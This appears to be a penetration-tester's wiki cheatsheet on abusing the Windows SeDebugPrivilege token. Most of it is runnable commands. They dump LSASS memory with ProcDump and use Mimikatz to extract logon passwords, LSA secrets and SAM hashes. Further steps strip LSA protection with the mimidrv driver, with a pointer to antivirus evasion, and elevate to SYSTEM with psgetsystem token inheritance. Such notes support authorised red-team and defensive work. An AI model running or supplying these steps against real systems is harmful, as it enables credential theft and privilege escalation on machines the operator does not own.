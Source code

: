 # SeDebugPrivilege

SeDebugPrivilege is a token can be assigned via local or domain group policy to account which then are allowed the use of Debuggers. Debuggers by design, have access to system memory, kernel and application structures . The reading and write to and of memory should be sparingly granted. See [[SePrivilege-Token-Table]] for full listing of all  abusable and non-abusable tokens.  For testing consider [Lee Holms adjusting-token-privileges-in-powershell article](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/).


Dumping important processes that contain credentials like Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) 

- `Taskmanager -> [Right Click] lsass.exe -> Create dump file `or  [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) to dump `lsass.exe` then [[Mimikatz-Cheatsheet]]. Or script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1). - See [PoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) by [@daem0nc0re](https://twitter.com/daem0nc0re)

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords 
````

- With just Mimikatz - [[Mimikatz-Cheatsheet]]
```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```
- Both meoth require mimidrv.sys and dll - beware, may all require [[Antivirus-Evasion]]
```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```


[By following the intrustion of this Decoder article](https://decoder.cloud/2018/02/02/getting-system/) and lauching a [child process](https://learn.microsoft.com/en-us/windows/win32/procthread/child-processes), elevating to SYSTEM with SeDebugPrivilege by inheriting the token of a parent process thereby impersonating that security context.
- Transfer [psgetsystem](https://github.com/decoder-it/psgetsystem)
-  Run [psgetsystem](https://github.com/decoder-it/psgetsystem) with either:
	- the auto-invoke: `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`
	- `.\psgetsys.ps1 $PID c:\windows\system32\cmd.exe`
- [[LonelyPotato]] - [[Potato-Exploits]]

`[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`



## References

[psgetsystem](https://github.com/decoder-it/psgetsystem)
[LeeHolmes](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)
[Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/procthread/child-processes)
[FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)
[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) 
[SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) 
[@daem0nc0re](https://twitter.com/daem0nc0re)
[Decoder article](https://decoder.cloud/2018/02/02/getting-system/)
[daem0nc0re PoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)